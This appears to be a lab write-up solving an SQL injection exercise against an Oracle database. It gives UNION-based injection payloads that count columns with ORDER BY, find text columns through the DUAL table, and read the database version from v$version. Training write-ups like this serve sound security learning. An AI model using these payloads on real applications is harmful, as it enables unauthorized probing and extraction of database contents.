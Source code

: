 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234110216-2cd07661-6e57-4942-8cee-5763175895b9.png)

![image](https://user-images.githubusercontent.com/67383098/234110948-d99c07da-75a2-4e88-a71e-80fa0c932977.png)


## Solution :

Here we can find out the number of columns that the web app is querying & also determine the columns which have text data but to retreive a column data  we need to know the table name.

In oracle there is a default table called **DUAL**. Using that we can retreive column data.

#### Determine the number of columns 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 3 --
```

**ORDER BY 3** gives error, so there are 2 columns being retreived.

#### Determine the column which has text data


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'shebu','cys' FROM dual --
```
Both the columns show the text in response. So both columns support text data.

#### Retreive db type & version of ORACLE 

To retretive db type & version of ORACLE , we have the syntax `SELECT * FROM v$version`

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,banner FROM v$version --
```

We got the db info we needed.

![image](https://user-images.githubusercontent.com/67383098/234114954-432d7c3b-fe6a-4d75-9858-42f475a6b4b8.png)

![image](https://user-images.githubusercontent.com/67383098/234115373-fbbbcdf6-5e26-4088-a404-04d64a700eb2.png)

![image](https://user-images.githubusercontent.com/67383098/234115419-5d87f4f4-f39d-4c69-b6b1-e3e54b4a60ad.png)


